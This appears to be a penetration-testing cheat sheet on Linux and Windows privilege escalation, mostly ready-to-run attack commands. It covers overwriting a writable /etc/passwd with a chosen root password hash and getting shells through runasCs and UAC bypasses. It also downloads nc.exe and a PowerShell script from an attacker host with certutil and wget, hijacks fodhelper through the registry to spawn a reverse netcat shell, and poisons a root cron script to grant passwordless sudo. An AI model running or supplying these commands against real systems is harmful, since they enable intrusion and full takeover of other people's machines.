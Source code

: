 ## Password /etc/passwd overwrite
NOTE: Copy and create backup of the original /etc/passwd file - this applies if you can overwrite that file to create your own password for a user.

`ls -la /etc/passwd `< this confirms that anyone can write to this file

`openssl passwd "P@ssword" `< this will generate a hash that you will enter into the /etc/passwd file on the second column replacing the "x". The "x" tells /etc/passwd to look for the password in the shadow file, but by replacing it with a hash you will be able to change the password of any user, in this case root to anything you want.

`nano /etc/passwd` < now replace the x with the password hash

`su root` < switch to the root user and enter the new password

## runas
```
runas /user:domain\username cmd
password_here
```

## runasCs.exe - bypass UAC
```
Use runasCs.exe to get a shell back to attaker machine with UAC bypass and elevated privs
runasCs.exe username_here password_here -r attacker_IP:1337 cmd --bypass-uac
```

## UAC Bypass 1
```
certutil -urlcache -f http://attacker_IP:80/Invoke-EventViewer.ps1 Invoke-EventViewer.ps1
certutil -urlcache -f http://attacker_IP:80/nc.exe nc.exe
Import-Module .\Invoke-EventViewer.ps1
Invoke-EventViewer "C:\windows\tasks\nc.exe attacker_IP 4242 -e C:\Windows\System32\cmd.exe"
```

## UAC Bypass 2
```
Grab nc.exe from the attacker server and transfer to the target machine - see file transfer methods section:
wget http://attacker_ip/nc.exe -outfile nc.exe

Run on the target machine to get a shell back to your attacker machine via netcat:
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\admin\Desktop\nc.exe 10.8.2.31 1337 -e powershell.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```


## Add user to sudoers - allow sudo without password
Scenario: You run pspy or linpeas, and notice that the script "cleanup.sh" is being run by the root user via cronjob or this might be the only script that the current user can run. You try to add a command to get a reverse shell but can't seem to do it on that script. Next step maybe to become root by adding the current user "some_user" to the /etc/sudoers file. This will allow you to simply run "sudo su" and become root once the script with the following command runs and allows the current user to run sudo commands without a password.
```
# run this command to add the extra line of code on cleanup.sh to add "some_user" into the sudoers file.
echo "echo 'some_user ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers" > cleanup.sh
```
